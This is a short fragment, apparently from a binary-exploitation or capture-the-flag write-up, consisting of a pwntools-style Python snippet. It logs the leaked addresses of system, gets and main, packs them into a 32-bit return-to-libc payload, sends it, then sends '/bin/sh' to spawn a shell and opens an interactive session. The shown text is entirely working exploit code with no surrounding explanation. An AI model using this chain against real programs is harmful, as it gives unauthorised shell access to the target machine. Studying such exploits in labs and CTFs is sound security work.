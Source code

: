 ```python
log.info(f"system_addr: {hex(system_addr)}")
log.info(f"gets_addr: {hex(gets_addr)}")
log.info(f"main_addr: {hex(main_addr)}")

payload = p32(system_addr) + p32(gets_addr) + p32(main_addr)
p.send(payload)
sleep(0.3)

p.send(b"/bin/sh") # Send "/bin/sh" to trigger system("/bin/sh")

session.interactive()
```
